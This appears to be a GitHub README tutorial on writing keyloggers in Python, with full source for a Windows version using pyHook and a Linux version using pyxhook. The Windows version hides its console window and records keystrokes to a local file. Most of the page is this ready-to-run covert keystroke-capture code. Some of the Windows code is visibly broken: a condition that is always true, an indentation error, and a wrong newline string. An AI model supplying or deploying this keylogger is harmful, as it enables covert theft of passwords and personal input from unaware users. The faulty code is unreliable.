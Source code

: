 # Design a KeyLogger using Python


Keystroke logging, often referred to as keylogging or keyboard capturing, is the action of recording (logging) the keys struck on a keyboard, typically covertly, so that the person using the keyboard is unaware that their actions are being monitored.<br>

These are computer programs designed to work on the target computer’s software. Keyloggers are used in IT organizations to troubleshoot technical problems with computers and business networks. Families and business people use keyloggers legally to monitor network usage without their users’ direct knowledge. However, malicious individuals can use keyloggers on public computers to steal passwords or credit card information.<br>




## Keylogger for Windows

> Download some python libraries <br>
1. [pywin32](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pywin32)
2. [pyhook](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook)

Following is the code to create keylogger in python <br>

```py
import win32api 
import win32console 
import win32gui 
import pythoncom, pyHook 
  
win = win32console.GetConsoleWindow() 
win32gui.ShowWindow(win, 0) 
  
def OnKeyboardEvent(event): 
    if event.Ascii==5: 
        _exit(1) 
    if event.Ascii !=0 or 8: 
    #open output.txt to read current keystrokes 
        f = open('c:\output.txt', 'r+') 
        buffer = f.read() 
        f.close() 
    # open output.txt to write current + new keystrokes 
        f = open('c:\output.txt', 'w') 
        keylogs = chr(event.Ascii) 
        if event.Ascii == 13: 
        keylogs = '/n'
        buffer += keylogs 
        f.write(buffer) 
        f.close() 
# create a hook manager object 
hm = pyHook.HookManager() 
hm.KeyDown = OnKeyboardEvent 
# set the hook 
hm.HookKeyboard() 
# wait forever 
pythoncom.PumpMessages() 
```
<br>

> Save the file in C:\ as Keylogger.py and run the python script <br>


**Output:**<br>
> The keylogger will be started in the background and save all the data on the log file “c:\output.txt”. <br>





## Keylogger in Linux

**pyxhook** requires **python-xlib**. Install it if you don’t have it already.<br>

> sudo apt-get install python-xlib <br>
Download [pyxhook](https://github.com/JeffHoogland/pyxhook/blob/master/pyxhook.py) library <br>

```py
import os 
import pyxhook 
  
# This tells the keylogger where the log file will go. 
# You can set the file path as an environment variable ('pylogger_file'), or use the default ~/Desktop/file.log 
log_file = os.environ.get( 
    'pylogger_file', 
    os.path.expanduser('~/Desktop/file.log') 
) 
# Allow setting the cancel key from environment args, Default: ` 
cancel_key = ord( 
    os.environ.get( 
        'pylogger_cancel', 
        '`'
    )[0] 
) 
  
# Allow clearing the log file on start, if pylogger_clean is defined. 
if os.environ.get('pylogger_clean', None) is not None: 
    try: 
        os.remove(log_file) 
    except EnvironmentError: 
       # File does not exist, or no permissions. 
        pass
  
#creating key pressing event and saving it into log file 
def OnKeyPress(event): 
    with open(log_file, 'a') as f: 
        f.write('{}\n'.format(event.Key)) 
  
# create a hook manager object 
new_hook = pyxhook.HookManager() 
new_hook.KeyDown = OnKeyPress 
# set the hook 
new_hook.HookKeyboard() 
try: 
    new_hook.start()         # start the hook 
except KeyboardInterrupt: 
    # User cancelled from command line. 
    pass
except Exception as ex: 
    # Write exceptions to the log file, for analysis later. 
    msg = 'Error while catching events:\n  {}'.format(ex) 
    pyxhook.print_err(msg) 
    with open(log_file, 'a') as f: 
        f.write('\n{}'.format(msg)) 
```
<br>
Output:<br>
> The keylogger will be started in the background and save all the data on the file.log file “/home/username/Desktop”.<br>


Credit : Akash Sharan<br>

References :
* https://en.wikipedia.org/wiki/Keystroke_logging
* https://www.geeksforgeeks.org/design-a-keylogger-in-python/?ref=lbp
